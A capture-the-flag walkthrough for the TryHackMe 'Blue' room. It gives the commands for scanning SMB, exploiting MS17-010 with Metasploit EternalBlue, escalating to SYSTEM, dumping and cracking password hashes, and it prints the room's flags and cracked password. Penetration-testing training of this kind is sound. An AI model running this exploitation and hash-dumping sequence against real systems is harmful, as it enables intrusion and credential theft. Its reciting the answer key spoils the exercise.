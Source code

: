 # TryHackMe - Blue: Full Walkthrough

## Overview

**Blue** is a TryHackMe room designed to teach exploiting **Windows SMBv1 (MS17-010)** misconfigurations, privilege escalation, hash dumping, cracking, and flag collection systematically.

---

## \[Task 1] Recon (19/03/2019)

### Description

We start by scanning the machine to identify services and vulnerabilities. Note: The target does not respond to ICMP (ping).

### #1.1 - Scan the machine

Run a full port and service scan:

```bash
sudo nmap -sV -sS -p- <target-ip>
```

**Key open ports:**

* 135 (msrpc)
* 139 (netbios-ssn)
* 445 (microsoft-ds)
* 3389 (RDP)
* High ephemeral ports for msrpc

### #1.2 - How many ports are open under 1000?

**Answer:** 3

### #1.3 - What is this machine vulnerable to?

Run the smb vulnerability script:

```bash
nmap -p445 --script smb-vuln-ms17-010 <target-ip>
```

**Answer:** `ms17-010`

---

## \[Task 2] Gain Access

### Description

We exploit the EternalBlue vulnerability to gain a foothold.

### #2.1 - Start Metasploit

```bash
msfconsole
```

### #2.2 - Find the exploitation code

Search for:

```bash
search ms17-010
```

**Path:** `exploit/windows/smb/ms17_010_eternalblue`

### #2.3 - Show options and set required value

Required option: `RHOSTS`

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
```

### #2.4 - Run the exploit

```bash
exploit
```

A shell should open, providing us with initial access.

### #2.5 - Confirm shell access

Press **ENTER** if needed, and background the shell with `CTRL+Z`.

---

## \[Task 3] Escalate

### Description

We upgrade our shell to Meterpreter and escalate privileges to SYSTEM.

### #3.1 - Find the post module for upgrading

Search:

```bash
search shell_to_meterpreter
```

**Module:** `post/multi/manage/shell_to_meterpreter`

### #3.2 - Show options and identify required option

Required option: `SESSION`

### #3.3 - Set session

List sessions:

```bash
sessions -l
```

Set:

```bash
set SESSION <session-id>
```

### #3.4 - Run the upgrade

```bash
run
```

### #3.5 - Select Meterpreter session

```bash
sessions -l
sessions <meterpreter-session-id>
```

### #3.6 - Verify SYSTEM access

Run:

```bash
getsystem
shell
whoami
```

**Expected output:** `nt authority\system`

### #3.7 - Migrate to a stable SYSTEM process

List processes:

```bash
ps
```

Identify a SYSTEM process (e.g., `svchost.exe`) and migrate:

```bash
migrate <pid>
```

---

## \[Task 4] Cracking

### Description

We will dump hashes and crack the user password.

### T4.1 - Dump hashes

In Meterpreter:

```bash
hashdump
```

**Non-default user:** `Jon`

### T4.2 - Crack the password

Save the hash to a file and run:

```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt <hashfile>
```

**Password found:** `alqfna22`

---

## \[Task 5] Find Flags

### Description

We locate and capture three flags on the system.

### T5.1 - Flag 1

Navigate to C:\ and read the file:

```bash
type C:\flag1.txt
```

**Flag:** `flag{access_the_machine}`

### T5.2 - Flag 2

Check known locations:

```bash
dir *flag* /s /b
```

Read the file:

```bash
type C:\Windows\System32\config\flag2.txt
```

**Flag:** `flag{sam_database_elevated_access}`

### T5.3 - Flag 3

Navigate to Jon's Documents:

```bash
type C:\Users\Jon\Documents\flag3.txt
```

**Flag:** `flag{admin_documents_can_be_valuable}`

---

## ✅ Summary

By completing **TryHackMe - Blue**, we:

* Performed reconnaissance and identified the SMB vulnerability (MS17-010)
* Gained initial access using Metasploit EternalBlue exploit
* Upgraded to Meterpreter and escalated to SYSTEM
* Dumped and cracked user hashes
* Captured all flags systematically

This room teaches the workflow of enumerating, exploiting, privilege escalation, hash cracking, and post-exploitation practices on a Windows machine vulnerable to SMB misconfigurations, aiding your real-world pentesting and OSCP preparation.
